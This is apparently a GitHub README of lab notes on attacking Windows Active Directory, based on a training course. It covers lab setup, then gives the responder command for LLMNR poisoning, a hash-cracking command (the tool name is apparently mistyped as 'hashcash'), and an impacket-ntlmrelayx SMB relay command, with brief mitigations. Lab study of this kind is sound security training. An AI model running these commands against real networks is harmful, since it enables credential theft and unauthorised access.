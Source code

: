 # Windows-Active-Directory-Hacking
The repo contains information on how to hack a windows active directory. REFERENCE: TCM ACADEMY
Active Directory Overview
Physical Active directory components
Logical active directory component
Requirements - One windows server(Windows 2022, two windows 10 Machines)
Setting up the Windows server,
Make sure you rename the windows server (in my case, UNCLE-DC)
promote the windows server to a domain controller by installing,  Active Directory Domain Services from the server manager, you can name your forest as anything but in my case i named it FKEYS.local
also make sure to install Active directory certificate services for other attacks that will considered for other attacks later

Attacking Active Directory: Initial Attack Vectors
1. LLMNR Poisoning

Sudo responder -I eth0 -ldwPv
<img width="696" height="197" alt="image" src="https://github.com/user-attachments/assets/9d0d67af-20d0-4068-b26c-d3cc71c62a3b" />

simulate an event occuring.= - 

hashcash -m 5600 hashes.txt /path/to/wordlist/ 
<img width="1877" height="390" alt="image" src="https://github.com/user-attachments/assets/da11dacb-30ec-435e-963f-008ea1ae7db7" />

LLMNR Mitigation
turn off LLMNR
if LLMNR is needed. It should have strong access control(password)

2. SMB Relay attacks

smb signing disable or not enforced on the target
The relayed user credential must be an admin 

from the responder setting (/etc/responder/Responder.conf), switch off SMB and HTTP flag
then run the command Sudo responder -I eth0 -ldwPv
impacket-ntlmrelayx -tf target.txt -smb2support 
<img width="802" height="473" alt="image" src="https://github.com/user-attachments/assets/5f7b7208-57e1-45fe-bdd4-6aa267a79dc0" />


